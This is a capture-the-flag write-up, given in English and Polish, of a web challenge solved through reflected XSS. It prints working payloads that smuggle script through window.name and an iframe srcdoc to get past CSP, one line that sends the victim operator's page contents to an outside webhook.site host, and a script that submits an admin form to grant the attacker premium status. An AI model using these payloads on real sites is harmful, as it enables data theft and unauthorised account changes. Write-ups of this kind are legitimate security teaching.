








# MMORPG 3000 (web)
[PL](#PL)
## Analysis
In this challenge we can see a simple website imitating a web store with stuff for magicians:

The registration form contains standard login and password fields and “name” field that fill be visible in our profile:



Besides editing our profile (we can change the “name” field to any string of up to 33 characters length) we can see “support” tab that suggests typical XSS task:


The hardcoded URL of our profile suggests injecting into “name” field in our profile that we control - however, it’s just a bait (typical for ctf.zone) and the limit is only client-side. Removing readonly attribute from “Link to profile” field lets us redirect the operator to any website that we control.


Now we gain very useful information: the operator is using Firefox 6.1

A quick glance at response headers:
```
Content-Security-Policy: style-src 'self' 'unsafe-inline'; script-src 'self' 'unsafe-inline' https://www.google.com/recaptcha/ https://www.gstatic.com/recaptcha/;
X-Frame-Options: ALLOW-FROM http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one
X-XSS-Protection: 1; mode=block
```

## XSS
We can find a real XSS in uid parameter of profile.php script:


Unfortunately, the maximum length of our payload is 36 characters. It’s too short for any meaningful action, so we need to think of something that will let us execute longer payloads. After many tires and some googling we find the solution:
the name attribute of window object is not changed while redirecting to different origins. We can set it in our website and execute on vulnerable one with short payload that bypasses CSP and makes uses of the fact that it’s allowed to load iframes from our own origin:
```html
?uuid="><iframe onload=srcdoc=window.name>
```
iframe with content loaded with srcdoc parameter will be treated as same-origin
It’s worth to mention that we don’t care about X-XSS-Protection header that is simply ignored by Firefox.

```html
<script>
window.name='<script>alert("This is XSS!")</scrip'+'t>';
window.location = 'http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid=%22%3E%3Ciframe%20onload=srcdoc=window.name%3E';
</script>
```


## Getting the flag
The remaining part of the task is simple: we send the content of operator’s website to us:
```html
<script>
window.name = `
<script>
window.frameElement.onload=null;
window.location="http://webhook.site/57607bbd-c1c9-43df-87cf-1de7dfe72d01?c="+btoa(window.parent.document.body.innerHTML);
`
window.name += '</scrip'+'t>’
window.location = 'http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid=%22%3E%3Ciframe%20onload=srcdoc=window.name%3E'
</script>
```

And observe the new option in menu: manage.php:


Let’s write a pyaload that fills the form with our uid and gives us premium account:
```html
<script>
window.name = `
<script>
window.frameElement.onload=null;
console.log(window.parent.document.body.innerHTML);
function elo()
{
document.getElementById('cudo').onload=null;
r = document.getElementById('cudo').contentWindow.document;
r.getElementsByName('user_uuid')[0].value = 'dbb306dd-28c1-4333-88ba-9588842f08e0';
r.getElementsByName('status')[0].value = 'premium';
r.getElementById('user_manage').submit();
}

`
window.name += '</scrip'+'t><iframe src="/manage.php" onload="elo()" id="cudo">'
window.location = 'http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid=%22%3E%3Ciframe%20onload=srcdoc=window.name%3E'
</script>
```

After refreshing our profile we can find a flag inside (unfortunately, while writing this writeup, that bot visiting website seems to be dead, so there won’t be a screenshot :( )
```
ctfzone{0190af5705a38115cd6dee6e7d79e317}
```

#PL

## Rozpoznanie
W zadaniu dostajemy prostą stronę udającą sklep z artykułami dla iluzjonistów:


Formularz rejestracji zawiera standardowe pole loginu i hasła oraz pole “name”, które będzie wyświetlane w profilu:


Oprócz edycji profilu (możemy zmienić pole Name na dowolny napis o długości do 33 znaków) widzimy zakładkę support, która sugeruje typowe zadanie na XSS:


Ustawiony na sztywno adres do naszego profilu sugeruje konieczność wstrzyknięcia naszego kodu w pole Name, które edytujemy - jest to jednak zwykła zmyła (typowa dla ctf.zone ;) ), a ograniczenie jest sprawdzane jedynie po stronie klienta. Usunięcie atrybutu readonly z pola “Link to profile” pozwala nam na przekierowanie operatora na dowolną kontrolowaną przez nas stronę:


Zyskujemy w ten sposób ważną informację: operator korzysta z przeglądarki Firefox 6.1.

Szybki rzut oka na nagłówki odsyłane przez serwer:
```
Content-Security-Policy: style-src 'self' 'unsafe-inline'; script-src 'self' 'unsafe-inline' https://www.google.com/recaptcha/ https://www.gstatic.com/recaptcha/;
X-Frame-Options: ALLOW-FROM http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one
X-XSS-Protection: 1; mode=block
```


## XSS
Prawdziwego XSS-a znajdujemy w polu uid skryptu profile.php:


Niestety, maksymalna długość naszego payloadu nie może przekraczać 36 znaków. To za mało na wykonanie jakiejkolwiek sensownej akcji, więc musimy pomyśleć o czymś, co pozwoli nam wykonywać dłuższe skrypty. Po wielu próbach i googlowaniu znajdujemy rozwiązanie: atrybut name obiektu window jest przekazywany między stronami. Możemy więc ustawić go na swojej stronie i wykonać na podatnej stronie krótkim payloadem, który omija CSP i wykorzystuje to, że dozwolone jest ładowanie ramek z własnego origina:
```html
?uuid="><iframe onload=srcdoc=window.name>
```
Ramka z zawartością załadowaną przez srcdoc będzie miała ten sam origin, co strona rodzica
Warto wspomnieć, że nie przeszkadza nam tutaj nagłówek X-XSS-Protection, który Firefox zwyczajnie ignoruje.

```html
<script>
window.name='<script>alert("This is XSS!")</scrip'+'t>';
window.location = 'http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid=%22%3E%3Ciframe%20onload=srcdoc=window.name%3E';
</script>
```


## No to flaga!
Dalej już z górki: przesyłamy sobie zawartość strony, którą widzi operator:
```html
<script>
window.name = `
<script>
window.frameElement.onload=null;
window.location="http://webhook.site/57607bbd-c1c9-43df-87cf-1de7dfe72d01?c="+btoa(window.parent.document.body.innerHTML);
`
window.name += '</scrip'+'t>’
window.location = 'http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid=%22%3E%3Ciframe%20onload=srcdoc=window.name%3E'
</script>
```

I w zwróconym kodzie zauważamy nową opcję w menu: manage.php:


Napiszmy więc payload, który wypełnia formularz naszym uuid i przyznaje nam konto premium:
```html
<script>
window.name = `
<script>
window.frameElement.onload=null;
console.log(window.parent.document.body.innerHTML);
function elo()
{
document.getElementById('cudo').onload=null;
r = document.getElementById('cudo').contentWindow.document;
r.getElementsByName('user_uuid')[0].value = 'dbb306dd-28c1-4333-88ba-9588842f08e0';
r.getElementsByName('status')[0].value = 'premium';
r.getElementById('user_manage').submit();
}

`
window.name += '</scrip'+'t><iframe src="/manage.php" onload="elo()" id="cudo">'
window.location = 'http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid=%22%3E%3Ciframe%20onload=srcdoc=window.name%3E'
</script>
```

Po czym odświeżamy nasz profil i znajdujemy w nim flagę (niestety, na moment pisanie writeupa bot odwiedzający stronę nie działa, więc nie będzie screenshota :( ):
```
ctfzone{0190af5705a38115cd6dee6e7d79e317}
```


